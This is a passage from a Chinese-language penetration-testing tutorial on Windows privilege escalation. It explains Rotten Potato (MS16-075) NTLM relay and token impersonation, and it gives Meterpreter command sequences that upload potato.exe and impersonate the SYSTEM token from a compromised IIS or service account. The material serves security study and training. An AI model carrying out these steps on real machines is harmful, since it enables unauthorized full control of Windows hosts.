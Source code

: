 ### 原理

烂土豆(Rotten Potato)提权是一个本地提权，是针对本地用户的，不能用于域用户。漏洞了解：MS16-075。

1. 欺骗“NT AUTHORITY\SYSTEM”账户通过 NTLM(NTLM 是指 telnet 的一种验证身份方式，即问询/应答身份验证协议，是 Windows NT 早期版本的标准安全协议)认证到我们控制的 TCP 终端。
2. 对这个认证过程使用中间人攻击（NTLM 重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的 Windows API 调用实现的。
3. 模仿这个令牌。只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限（一定是要服务型用户）。

所以，一般从 web 拿到的 webshell 都是 IIS 服务器权限，是具有这个模仿权限的。

### 提权

```shell
msf
upload /root/potato.exe c:\Users\Public
cd c:\\Users\\Public
use incognito
list_tokens -u
execute -cH -f potato.exe
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

## 令牌窃取

### 原理

进行远程过程调用时请求提升权限，然后调用它从而生成特权安全令牌以执行特权操作。当系统允许令牌不仅用于进程本身，还用于原始请求进程时，漏洞就会出现。

::: tip 适用版本

- [x] Windows xp professional sp3 和之前的版本
- [x] Windows server 2003 sp2 和之前的版本
- [x] Windows server 2003 x64 和 x64 sp2
- [x] Windows server 2003（用于基于Itanium的系统sp2和之前的版本）
- [x] Windows server 2008 x32 x64
- [x] Windows server 2008（用于基于Itanium的系统）
- [x] Windows Vista sp1 和之前的版本
- [x] Windows Vista x64 sp1 和之前的版本

:::

### 提权

```shell
user incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

### Kerberos 协议

在假冒令牌攻击中需要使用**kerberos**协议，所以在使用假冒令牌前，先来介绍 kerberos 协议。kerberos 是一种网络认证协议，其设计目标是通过密钥系统为客户机/服务器应用程序提供强大的认证服务。
